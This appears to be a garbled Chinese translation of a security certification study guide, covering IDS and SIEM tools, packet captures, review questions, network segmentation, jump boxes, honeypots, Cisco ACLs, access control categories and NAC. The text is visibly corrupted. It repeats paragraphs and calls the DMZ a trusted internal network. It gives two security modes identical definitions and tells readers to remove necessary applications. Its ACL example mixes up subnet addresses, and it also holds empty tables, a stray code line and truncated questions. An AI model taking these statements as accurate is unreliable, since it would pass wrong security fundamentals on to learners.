

虽然日志很有帮助，但`IDS`（入侵检测系统）的真实价值之一是以有意义的方式呈现其收集的数据。例如，图 2-15 显示了一个饼图用于显示入侵尝试以及入侵来源的IP地址。

# 图 2-15. `IDS` 报告



| 日期 | 时间 | 优先级 | 主机名 | | 消息 |
|---|---|---|---|---|---|
| 2016/11/25 | 14:36:48 | `Local.Notice` | `192.168.56.63` | 62 | ** 11月25日 11:36:46 - `%BF%96CONFIG_` 由 `vty0` 从控制台配置 (`192.168.56.101`) |
| 2016/11/25 | 14:36:34 | `Local.Notice` | `192.168.56.63` | 66 | ** 11月25日 11:36:31 - `%BF%96CONFIG_` 由 `vty` 从控制台配置 |
| 2016/11/25 | 14:36:27 | `Local.Notice` | `192.168.56.63` | 60 | ** 11月25日 11:36:28 - `%BF%96CONFIG_` 由 `vty` 从控制台配置 |
| 2016/11/25 | 14:36:23 | `Local.Notice` | `192.168.56.63` | 59 | ** 11月25日 11:36:21 - `%BF%96CONFIG_` 由 `vty` 从控制台配置 |
| 2016/11/25 | 14:35:33 | `Local.Info` | `192.168.56.63` | 57 | ** 11月25日 11:35:20 - `%BF%95LOGGINGHOST_START`: 正在记录到主机 `VTY` |

# 工具

本章已经查看了各种设备可以生成的某些输出类型，接下来的章节将检查生成这些输出的工具，以及一个将所有输出汇总在一起以便于分析的工具。

## `SIEM`

对于大型企业来说，需要分析的日志数据量可能非常。因此，许多组织实施了安全信息和事件管理（`SIEM`），它提供了一种自动化解决方案，用于分析事件并决定需要关注的地方。大多数`SIEM`产品支持两种从生成器收集日志的方式：

- 无代理：在这种收集类型下，`SIEM`服务器在不需要在主机上安装任何软件的情况下接收数据。在某些情况下，服务器会拉取日志；在其他情况下，主机会将日志推送到服务器。
- 基于代理：在这种收集类型下，在主机上安装代理程序来执行日志的过滤和归类。无论日志是推的还是拉取的，`SIEM`都会对特定类型进行处理。

每种方法都有优缺点。无代理方法的主要优势是不需要在日志主机上安装、配置和维护代理。主要缺点是主机层面缺乏过滤和聚合，这会导致向网络传输大量数据，并增加分析日志的时间。无代理方法的另一个潜在缺点是`SIEM`服务器可能需要日志主机的凭据。在某些情况下，一种方法是可行的；例如可能无法从特定主机远程收集日志。


另一方面，图 2-18 中的工具专注于数据包头部之一——在本例中，即传输层头部，它显示了有关`TCP`运行的信息。它表明源端口是 `80` 端口（`HTTP`），目的端口号为 `3197`。这表示服务器向客户端发送了`HTTP`响应，而该客户端为本次会话选择了随机端口号 `3197`。

图 2-18. `TCP` 头部

## `IDS`

入侵检测系统（`IDS`）是一种负责检测针对系统和网络的未经授权的访问或攻击的系统。它可以核实、逐项列出并表征来自网络外部和内部的威胁。大多数`IDS`都被程序设置为特定情况下以某些方式做出反应。及早通知和警报对`IDS`至关重要。它们会在检测到攻击何时何地告知管理员和安全人员。`IDS`系统的类型在[第1章]中介绍。

## 资源监控工具

资源监控可以应用于单个设备，也可以应用于整个网络。应用于单个设备时，你通常对四种主要计算资源的使用感兴趣：`CPU`、网络、磁盘和内存。应用于网络，你感兴趣的是穿越网络的流量类型的相对百分比，这可以作为提供这些类型服务的设备使用情况的粗略估计。

虽然可以使用我们已经讨论的一些工具进行资源监控，但某些工具是专门设计用于收集此类信息，并允许以各种方式对数据进行分析。[图 2-19]显示了一个名为 `Colasoft Capsa 7 Free` 的工具，它提供了此类信息。



## 图 2-19. 资源分析器



## `NetFlowAnalyzer`

正如在本设备的早期部分学到的，`NetFlow`分析器是一种接收网络`NetFlow`数据的工具，并允许以各种方式对数据进行处理和显示。在本章中，你看到了如何识别热门说话者（`top talkers`）和热门协议（`top protocols`）。图 2-20 显示也可以显示所有的流量模式。

## 图 2-20. `NetFlow` 分析器

## `tcp.pcap - Wireshark`

| 编号 | 时间 | 源 | 目的 | 协议 | 详情 |
|---|---|---|---|---|---|
| 20 | 1256654 | `192.168.0.1` | `192.168.0.2` | `TCP` | `[TCP Window Update] HTTP = 319` |
| 31 | 1266268 | `192.168.0.1` | `192.168.0.2` | `TCP` | `1025 > 5025 [PSH, ACK] Seq=1 Ack+1` |
| 32 | 12667850 | `192.168.0.1` | `192.168.0.2` | `TCP` | `1025 > 5025 [PSH, ACK] Seq=510+1` |
| 33 | 1267850 | `192.168.0.1` | `192.168.0.2` | `TCP` | `1025 > 5000 Seq=510 Ack=0` |
| 35 | 1275447 | `192.168.0.1` | `192.168.0.2` | `TCP` | `3197 > 3197 [FIN, ACK] Seq=26645` |
| 36 | 1276019 | `192.168.0.1` | `192.168.0.2` | `TCP` | `3197 > 3197 [FIN, ACK] Seq=26645` |
| 37 | 1276019 | `192.168.0.1` | `192.168.0.2` | `TCP` | `3197 > 3197 [ACK] Seq=26645+0` |
| 40 | 1281283 | `192.168.0.1` | `192.168.0.2` | `TCP` | `1025 > 5000 [FIN, ACK] Seq=510` |

- 帧 36 (写入 40 字节，40 字节)
- 以太网，源: `Netgear`, 目的: `d5:27:75:9a` (`00:09:d5:27:75:9a`): `192.168.0.2` (`00:0b:d5:27:cd:02`)
- IP 协议，源: `192.168.0.1` (`192.168.0.1`), 目的: `192.168.0.2` (`192.168.0.2`)
- 传输控制协议，源端口: `80` (`HTTP`), 目的端口: `3197`

- `Frame 36 (40 bytes on write, 40 bytes)`
- `Ethernet, Src: Netgear, Dst: d5:27:75:9a (00:09:d5:27:75:9a): 192.168.0.2 (00:0b:d5:27:cd:02)`
- `Internet Protocol, Src: 192.168.0.1 (192.168.0.1), Dst: 192.168.0.2 (192.168.0.2)`
- `Transmission Control Protocol, Src Port: 80 (HTTP), Destination Port: 3197` It indicates that the source port is port 80 (`HTTP`) and the destination port number is 3197. This indicates an `HTTP` response from a server to a client that chose the random port number 3197 for this session.

```
if (condVar > someVal) {console.log("xxx")}
```


## 习题准备

正如在本设备的早期部分学到的，`NetFlow` 分析器是一种接收网络 `NetFlow` 数据的工具，并允许以各种方式对数据进行处理和显示。在本章中，你看到了如何识别热门说话者和热门协议。图 2-20 显示也可以显示所有的流量模式。

## 复习所有主题

| 元素 | 描述 | 页码 |
|---|---|---|
| 为了支持 | | |
| 包含 | | |
| 信息在 2- | | |
| 典型的 | | |
| 信息 | | |
| 支持的 | | |

## 定义关键术语

- 异常分析
- 可用性分析
- 行为分析
- 冲突分析
- `NetFlow`
- 流量分析
- 异常分析
- 统计分析
- 趋势分析
- 流量分析

## 资源监控工具

## 复习题

1. 为了支持识别近期问题，网络团队目前有一个仅检查头部的嗅探器。他们需要一种可以检查负载的分析。是哪种分析？
   a. 数据包
   b. 流量
   c. 协议
   d. 异常

2. 你的 `IDS` 今天经常产生警报，是由于从更新服务器应用安全补丁产生的流量。`IDS` 最可能使用的是哪种分析？
   a. `NetFlow`
   b. 流量
   c. 数据包
   d. 异常

3. 一位 `CIO` 运行了一个工具，该工具显示网络上存在不该存在的协议。`CIO` 的工具执行的是哪种类型的分析？
   a. `NetFlow`
   b. 流量
   c. 协议

4. 一新技术人员在路由器上实现了一个功能，使路由器记录并导出流量信息。该功能称为什么？
   a. `NetFlow`
   b. 流量
   c. 协议
   d. 异常

5. 似乎在 `WLAN` 接入点周围有一个网络瓶颈。其中一名团队成员指出，在某种程度上这是由于所使用的方法导致的。以下哪种方法是 `802.11` 网络中使用的竞争方法？
   a. 轮询
   b. `CSMA/CD`
   c. `CSMA/CA`
   d. 令牌传递

6. 网络团队使用 `IDS` 生成的几份报告，成功地论证了需要一台额外的 `SQL` 服务器。`IDS` 采用的哪种类型的分析允许团队得出这一结论？
   a. 趋势
   b. 流量
   c. 协议
   d. 异常

7. 上周 `CIO` 召开了一个会议。他对网络团队非常不满意。当他举起由 `IDS` 生成的报告时，他说他对上周由于问题导致几台服务器离线的时间感到非常遗憾。该报告最可能是基于哪种类型的分析？
   a. 趋势
   b. 可用性
   c. 协议
   d. 异常

8. `IDS` 和 `IPS` 最近未能检测到若干零日威胁。首席信息官（`CIO`）希望团队获取一个能够识别这些威胁的 `IPS` 或 `IDS`。新设备需要以下哪种类型的分析？
   a. 趋势
   b. 可用性
   c. 启发式
   d. 异常

## 第3章 建议并实施适当的响应与措施

本章涵盖了以下主题：

1.0 威胁管理

1.3 针对网络威胁，实施或建议适当的响应和措施。

- 网络分段：包括分段和跳板机（`jump boxes`）等主题。
- 蜜罐：讨论了蜜罐在分层安全方法中的作用。
- 终端安全：描述计算机、打印机和笔记本电脑等终端设备的安全保护。
- 组策略：讨论了使用组策略执行安全基准的价值。
- `ACL`：讨论了访问列表的使用，包括汇洞（`sinkholes`）的创建。
- 加固：包括加固步骤，如强制访问控制（`MAC`）、补偿控制、阻塞未使用的端口/服务以及补丁。
- 网络访问控制（`NAC`）：调查了 `NAC` 的类型，例如基于代理、基于规则、基于角色和基于位置的 `NAC`。

### 网络分段习题

网络侦察通常会识别漏洞和弱

1. 网络侦察通常会识别漏洞和弱
   a. `WAN`
   b. `MAN`
   c. `PAN`
   d. `LAN`

2. 有两个设备连接到同一个交换机上，你希望在第 2 层和第 3 层将它们隔离。你可以部署以下哪种设备来实现这一目标？
   a. `VLAN`
   b. `MAN`
   c. `LAN`

3. 最近一个放置在 `DMZ` 中的设备发生了未经授权的访问。你可以部署什么，以仅提供从管理桌面到受管理设备的访问？
   a. `Syslog`
   b. 跳板机
   c. 蜜罐
   d. 蜜网

4. 在你的交换机上设置了两个 `VLAN` 后，你希望控制这两个 `VLAN` 之间的访问。你应该在路由器上部署什么来使之成为？
   a. `MACs`
   b. `NACs`
   c. `ACLs`
   d. `VACLs`

5. 以下哪种控制类型旨在阻止攻击者？
   a. 纠正性
   b. 探测性
   c. 威慑性
   d. 指性

6. 公司要求你设置一个对黑客有吸引力的设备，诱导他们花费时间进行攻击，同时收集信息。以下哪些系统被配置为对黑客有吸引力，并诱导他们花费时间攻击以便收集信息？
   a. 跳板机
   b. 蜜罐
   c. `Syslog`
   d. `IPS`

7. 你升职了，你的新工作包括监控、设备自动更新以及安全补丁和个人防火墙设置的配置。你被分配到了哪种安全功能？
   a. 终端安全
   b. 边界安全
   c. 资产分类
   d. 漏洞评估

8. 存在多次用户在远程连接时将病毒带入网络的情况。你可以部署以下哪种设备，在用户进行远程访问或通过 `VPN` 连接到网络时，对用户引入到网络的状态进行检查？
   a. `DAC`
   b. `ACL`
   c. `NAC`
   d. `DMZ`

9. 以下哪项不是组策略可以应用的组件？
   a. 域
   b. 组织单元
   c. 安全组
   d. 站点

## 基础主题

## 网络分段

保护敏感资源的方法之一是利用网络分段。当你对网络进行分段时，你创建了安全区域，这些区域通过防火墙和路由器等设备隔离开，这些设备可用于控制区域之间的流量。虽然通常情况下你可以创建的区域数量没有限制，但大多数网络具有后续章节中讨论的区域类型。

## 关键主题

## `LAN`

让我们先谈谈让局域网（`LAN`）成为“本地”的。尽管我们传统上认为 `LAN` 是位于某个位置（例如单个办公室）的网络，但将 `LAN` 称为一组通过快速连接连接的系统更为准确。就本文讨论而言，指的是任何超过 `10 Mbps` 的连接。

这对你来说可能看起来并不很快，但与广域网连接（`WAN`）相比很快了。即使是 `T1` 连接也只有 `1.544 Mbps`。以此为基准，如果单一校园网络在两栋楼之间有 `WAN` 连接，那么这两个网络被视为两个 `LAN` 而不是单个 `LAN`。但在大多数情况下，单一校园内的网络通常*不是*通过 `WAN` 连接连接的，这就是为什么你通常听将 `LAN` 定义为单一位置的网络。

## 内网

在单个 `LAN` 的边界内，可以出于安全目的进行细分。`LAN` 可能被分为内网（`intranet`）和外网（`extranet`）。内网是企业的内部网络。它被认为是一个信任的网络，通常存放任何敏感信息和系统，应该通过防火墙和强身份验证机制获得最大的保护。

## 外网

外网是一个与内网逻辑上隔离的网络，其中提供了可用资源。

## `DMZ`

与外网一样，非军事化区（`DMZ`）是一个与内网逻辑上隔离的网络，其中提供了可用资源。`DMZ` 是企业的内部网络。它被认为是一个信任的网络，通常存放任何敏感信息和系统，应该通过防火墙和强身份验证机制获得最大的保护。

## `VLANs`

到目前为止讨论的分段组件是在物理上隔离网络，而虚拟局域网（`VLAN`）则在逻辑上隔离它们。



- 图例
- 未经身份验证发起的通信
- 身份验证发起的通信

作为域成员（计算机 1）且具有适当组策略（`GP`）设置以建立身份验证会话的设备被允许访问。不是域成员但被列为例外的计算机被允许建立未经身份验证的会话。最后，缺少建立身份验证会话所需的适当组策略设置的设备将被允许访问。

这仅仅是设备如何被隔离的一种示例。在某些情况下，人们希望完全隔离——是的，将设备从网络中移除。在完全隔离的情况下，任何你需要访问设备的时候都必须在本地进行。对设备上数据的任何更新都必须使用外部介质手动完成。适当这样做的一个例子是证书机构（`CA`）根服务器。如果根 `CA` 以某种方式被破解（被入侵、黑客攻击、盗取或被未经授权的恶意人员访问），由该 `CA` 发的所有证书也将被破解。

## 跳板机 (`Jump Box`)

跳板机（或称为跳板服务器）是一种用于访问放置在安全网络区域（如 `DMZ`）中设备的服务器。该服务器跨越两个网络，以提供从管理桌面到受管设备的访问。`SSH` 隧道是作为事实上的常用访问方法。管理员可以使用多个特定区域的跳板机来访问他们需要的内容，并通过白名单防止服务器之间的横向访问。这有助于防止 `Target` 和 `Home Depot` 遭受的类型类型入侵，在这些事件中，横向访问被用于从一个受感染的设备移动到其他服务器。图 3-4 显示了跳板机的布局。

## 核心主题

### 图 3-4. 跳板机



跳板机布局可以避免以下问题：

- 因横向访问而发生的泄露
- 对敏感服务器的不当管理访问

## 蜜罐 (`Honeypot`)

蜜罐是经过配置的、对黑客具有吸引力的系统，旨在诱他们花费时间进行攻击，同时收集有关攻击的信息。在某些情况下，整个网络被称为蜜罐网（`honeynet`），并为此目的进行了具有吸引力的配置。此类方法应仅由具备适当部署和监控其技能的公司实施。

为了避免为网络的其他区域提供跳板，应注意蜜罐和蜜罐网不要提供到任何重要系统的直接连接。最终目标是尽早检测入侵者并收集其战术的情报。

## 终端安全 (`Endpoint Security`)

终端安全是一个保护终端设备（如笔记本电脑、台式电脑和手机）免受威胁的安全领域。它涉及多层方法，每台设备都有自己的安全措施。在最形式的形式，终端安全包括杀病毒软件和防火墙。在更高级的场景中，它可能包括加密、终端检测与响应 (`EDR`) 工具以及设备管理策略。目标是确保即使设备被破解，损害被控制且网络受到保护。

终端安全可以缓解以下问题：
- 恶意软件
- 数据泄露

## 组策略 (`Group Policies`)

组策略是 Windows 环境中用于管理和配置计算机和用户的一规则。它们允许管理员在整个组织范围内强制安全策略，例如密码复杂性、软件限制和访问控制。组策略通过活动目录 (`AD`) 实现，并确保所有设备都符合所需的安全标准。

### `ACL` 与 `TCP` 拦截

- `IP` 地址欺骗，出站
- 拒绝服务 (`DoS`) `TCP SYN` 攻击，在边界处拦截外部攻击
- `DoS` `TCP SYN` 攻击，使用 `TCP` 拦截 (`TCP Intercept`)
- `DoS` `Smurf` 攻击
- 拒绝/过滤 `ICMP` 消息，入站
- 拒绝/过滤 `ICMP` 消息，出站
- 拒绝/过滤路由追踪 (`traceroute`)


数据包与访问列表比较时遵循三个重要规则：

- 数据包顺序与访问列表的每一行进行比较；它始终从访问列表的第一行开始，移动到第 2 行，然后是第 3 行，依次类推。
- 数据包仅与访问列表的行比较直到匹配为止。一旦匹配了访问列表某行的条件，就会对该数据包执行操作，不再进行进一步比较。
- 每个访问列表的末尾都有一个隐式的“拒绝”（`deny`）。这意味着如果数据包不匹配访问列表中的任何一行的条件，该数据包将被丢弃。

例如，以下 `ACL` 允许整个 `172.168.5.0` 子网并拒绝 `192.168.5.5`。

```
Corp(config)# access-list 10 permit 172.168.5.0 0.0.0.255
Corp(config)# access-list 10 deny 192.168.5.5
```

如果你的意图是拒绝 `172.16.5.5` 的设备，那么你失败了。因为该地址位于 `172.168.5.0` 网络内，它会被允许，因为 `permit` 规则在 `deny` 规则之前。你可以通过以下方式重新排序规则来解决这个问题：

```
Corp(config)# access-list 10 deny 192.168.5.5
Corp(config)# access-list 10 permit 172.168.5.0 0.0.0.255
```


## 汇洞 (Sinkhole)

汇洞是一种旨在接收和分析攻击流量的路由器。汇洞可用于以下操作：

- 将流量从目标引开
- 监控蠕虫流量
- 监控其他恶意流量

在攻击期间，可以快速配置汇洞路由器，发布一个指向目标 IP 地址的路由，该路由引导至网络或备设备，可以在那里安全地研究攻击。此外，汇洞还可以用于防止被入侵的主机与攻击者通信。最后，它们可以用于防止受蠕虫感染的系统感染其他系统。

汇洞用于缓解以下问题：

- 蠕虫
- 被入侵的设备与命令与控制服务器通信
- 针对网络内部单个设备的外部攻击

## 加固 (Hardening)

运维安全的另一个持续目标是确保所有系统都尽可能地经过了加固，同时仍提供相应功能。加固既可以在物理基础上也可以在逻辑基础上完成。以下章节将介绍系统加固技术。

## 强制访问控制 (MAC)

系统中敏感数据的一个主要关注点是保护这些数据的机密性、完整性和可用性 (CIA)。在 MAC 访问系统中，系统会根据数据敏感性、用户许可级别以及用户被授权的操作等变量，在不同时间以不同的安全模式运行。本节提供了这些模式的描述：


- **专用安全模式 (Dedicated security mode)**：如果系统采用单一分类级别，则以专用安全模式运行。在该系统中，所有用户都可以访问所有数据，但他们必须签署保密协议 (NDA)，并根据“需知情”原则正式批准访问。
- **系统高安全模式 (System high security mode)**：在以系统高安全运行的系统中，所有用户具有相同的安全许可（如专用模型），但他们并非对系统中所有信息都拥有“需知情”许可。因此，尽管用户可能具有访问对象的许可，但如果她没有“需知情”许可，可能会受到限制。
- **分区安全 (Compartmentalized security)**：在以分区安全运行的系统中，所有用户具有相同的安全许可（如专用模型），但他们并非对系统中所有信息都拥有“需知情”许可。因此，尽管用户可能具有访问对象的许可，但如果她没有“需知情”许可，可能会受到限制。
- **多级安全 (Multilevel security)**：以多级安全模式运行的系统允许具有不同许可级别的用户访问数据。这种模式在军事和政府环境中很常见，数据按敏感性级别进行分类。

## 补偿控制 (Compensating Controls)

并不是所有漏洞都能被消除。在某些情况下，它们只能被缓解。使用补偿控制可以降低潜在风险。在实施补偿控制时，必须考虑三点：漏洞、威胁和风险。

## 控制类别 (Control Categories)

你实施访问控制是针对已识别漏洞的应对措施。你可以使用的访问控制机制分为几类：

- **补偿性 (Compensating)**：实施补偿控制是为了替代主要的访问控制，主要起缓解风险的作用。通过使用补偿控制，你可以风险降低到更容易管理的水平。补偿控制示例包括……
- **纠正性 (Corrective)**：实施纠正控制是为了减少攻击或其他不良事件的影响。使用纠正控制可以修复或恢复受攻击的实体。纠正控制示例包括……
- **检测性 (Detective)**：实施检测控制是为了在攻击发生时检测并提醒相关人员。检测控制示例包括……
- **威慑性 (Deterrent)**：威慑性控制旨在阻止或阻碍攻击者。通过威慑控制，可以在过程中早期发现攻击。威慑性控制通常会触发预防性和纠正性控制。
- **指示性 (Directive)**：指示性控制规定了组织内部可接受的做法。其目的是将组织的安全指令正式化，主要面向其员工。
- **预防性 (Preventive)**：预防性控制防止攻击发生。预防性控制示例包括……
- **恢复性 (Recovery)**：恢复性控制在攻击发生后恢复系统或设备。恢复性控制的主要目标是恢复资源。恢复控制示例包括……

你实施的任何访问控制都属于一个或多个访问控制类别。

访问控制类别是根据访问控制在时间维度上的位置对访问控制进行分类，而访问控制类型则是根据其实现方法对访问控制进行划分。访问控制有三种类型：

- 行政（管理）控制
- 逻辑（技术）控制
- 物理控制

在任何一个将深层防御视为首要任务的组织中，访问控制都需要使用所有这三种类型的访问控制。即使你实施了最严格的物理和行政控制，如果没有逻辑控制，你也无法完全保护环境。

## 行政（管理）控制

行政控制（或管理控制）的实施目的是管理组织的资产和人员，它包括由管理层建立的安全策略、操作程序、标准、基准和指南。这些控制通常被称为“软控制”。具体的示例包括人员控制、数据分类、数据标记、安全意识培训和监督。

安全意识培训是一项非常重要的行政控制。其目的是提高组织对保护数据的态度。安全意识培训的益处包括：减少错误和遗漏的数量及严重性、对信息价值有更好的理解，以及管理员对未经授权入侵尝试有更好的识别能力。确保员工认真对待安全意识的一种高成本效益的方法是建立奖项或认可计划。

安全专业人员应帮助制定组织策略和程序，以确保人员理解预期以及如何妥善履行职责。入职前的申请人评估对于保护组织也同样重要。人员安全、评估和许可确保人员仅访问其组织内特定角色所需的资源或区域。监控和日志确保安全专业人员有办法分析行为。用户访问应该受到管理，包括用户访问审批、唯一用户 ID、用户访问的定期审查、用户密码处理，以及访问修改和撤销程序。

## 逻辑（技术）控制

逻辑控制（或技术控制）是用于限制访问的软件或硬件组件。逻辑控制的具体示例包括防火墙、`IDS`、`IPS`、加密、身份验证系统、协议、审计和监控工具、生物识别、智能卡和密码。

尽管审计和监控属于逻辑控制且经常被列在一起，但它们实际上是两种不同的控制。审计是评估安全性的一次性或定期性事件。监控是一项持续活动，用于检查系统或用户。

网络访问、远程访问、应用访问以及计算机或设备访问都属于这一范畴。

## 物理控制

物理控制的实施目的是保护组织的设施和人员。人员问题应优先于所有其他问题。物理控制的具体示例包括周边界安全、胸牌、刷卡、保安、警卫犬、人笼（man traps）、生物识别和布线。

在控制进入建筑的物理实体时，安全专业人员应确保建立了访客控制策略，包括访客日志、访客陪同以及限制访客访问敏感区域。

## 阻塞未使用的端口/服务

运行安全的另一个持续目标是确保所有系统在仍提供功能的同时，尽可能最大程度地进行加固。加固可以从物理和逻辑两个方面完成。从逻辑角度来看，你需要执行以下操作：

- 移除必要的应用程序。
- 禁用不必要的服务。
- 阻塞不需要的端口。
- 严格控制外部存储设备和媒介的连接（如果允许的话）。

## 补丁

软件补丁是供应商发布的更新，用于修复操作系统、应用程序以及运行在网络设备上的固件版本中的功能问题，并修复紧密的安全漏洞。

为了确保所有设备都安装了最新的补丁，应部署一个正式系统，以确保所有系统在非生产环境经过彻底测试后接收最新的更新。供应商无法预见更改对网络中关键业务系统可能产生的每种影响。企业有责任确保补丁不对操作产生不利影响。

## 网络访问控制

网络访问控制（NAC）是一项超越用户身份验证的服务，它还包括用户在对网络进行远程访问或 `VPN` 连接时，检查其引入网络的计算机状态。

思科世界将这些服务称为网络准入控制（`NAC`），而微软世界将其称为网络访问保护（`NAP`）。无论使用何种术语，其目标都是相同的：检查用户在对网络进行远程访问或 `VPN` 连接时引入的计算机状态，是否存在恶意软件、缺失的安全更新。

微软图显示了 `NAP` 的步骤。请求访问的设备健康状态被收集并发送到网络策略服务器 (`NPS`)，在其中进行比对。如果满足要求，则授予访问。

供请求者允许网络访问的端口。

该过程如图 3-8 所示。

### 图 3.8. 802.1x 架构



虽然 `RADIUS` 和 `TACACS+` 起的角色相同，但它们具有不同的特性。在选择方法时，必须考虑这些差异。请记住，`RADIUS` 是一个标准，而 `TACACS+` 是 `Cisco` 的专用协议。表 3.2 对它们进行了对比。

> 关键主题

**表 3-2. RADIUS vs. TACACS+**

| | `RADIUS` | `TACACS+` |
| :--- | :--- | :--- |
| 传输协议 | 使用 `UDP`，可能导致响应更快 | 使用 `TCP`，可提供更多用于故障排除的信息 |
| 机密性 | 仅加密访问请求包中的密码 | 加密整个数据包体，但保留标准的 `TACACS+` 头部以供故障排除 |
| 身份验证与授权 | 将身份验证和授权结合在一起 | 将身份验证、授权和审计过程分离 |
| 支持的第 3 层协议 | 不支持以下任何协议：<br>- Apple 远程访问协议<br>- `NetBIOS` 帧协议控制<br>- `X.25 PAD` 连接 | 支持所有协议 |
| 设备 | 不支持对路由器和交换机上的可用命令进行安全保护 | 支持对路由器和交换机上的可用命令进行安全保护 |
| 流量 | 产生的流量较少 | 产生的流量较大 |

802.1x 基于端口认证可以帮助缓解的问题包括：

- 网络 `DoS` 攻击
- 设备欺骗（因为它验证的是用户，而不是设备）

## 考试准备任务

正如引言中“考试准备策略”部分提到的，你对考试准备有几种选择：此处的练习题、第 15 章“最终准备”以及 Pearson IT 认证测试引擎中的模拟考试。

## 复习所有关键主题

复习本章中最重要的主题，这些主题在页面的外边页已用“关键主题”图标标出。表 3-3 列出了这些关键主题及其所在的页码。


**表 3-3. 第 3 章关键主题**

| 关键主题元素 | 描述 | 页码 |
| :--- | :--- | :--- |
| 章节 | 网络类型 | |
| 图 3-1 | 网络分段 | |
| 图 3-2 | `VLAN` | |
| 图 3-3 | 服务器隔离 | |
| 图 3-4 | 跳板机 | |
| 图 3-5 | 活动目录 (Active Directory) | |
| 列表 | 创建访问列表 | |
| 列表 | `ACL` 逻辑 | |
| 列表 | `MAC` 运行模式 | |
| 章节 | 访问控制类型 | |
| 章节 | 控制实现 | |
| 列表 | 加固 | |
| 列表 | `NAC` 的局限性 | |
| 列表 | 基于上下文的访问控制 | |
| 列表 | 802.1x 组件 | |
